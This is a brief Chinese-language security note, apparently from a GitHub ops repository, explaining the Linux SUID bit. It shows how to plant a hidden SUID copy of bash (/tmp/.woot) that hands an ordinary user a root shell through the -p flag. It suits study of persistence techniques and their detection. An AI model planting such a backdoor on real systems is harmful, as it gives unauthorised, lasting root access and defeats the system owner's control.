


# SUID后门

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BLinux%2B%E6%81%B6%E6%84%8F%E4%BB%A3%E7%A0%81-SUID%E5%90%8E%E9%97%A8.md)

在介绍linux提权的时候，曾说过SUID

> 什么是suid？suid全称是**S**et owner **U**ser **ID** up on execution。这是Linux给可执行文件的一个属性——**s标志**。通俗的理解为其他用户执行这个程序的时候可以用该程序所有者/组的权限。需要注意的是，**只有程序的所有者是0号或其他super user，同时拥有suid权限，才可以提权**。

创建一个suid权限的文件：

```
cp /bin/bash /tmp/.woot
chmod u+s /tmp/.woot
ls -al /tmp/.woot
```



```
```

使用普通用户运行就可获得root权限：

```
/tmp/.woot
/tmp/.woot -p    //bash2 针对 suid 有一些护卫的措施，需要使用-p参数来获取一个root shel
```

## 
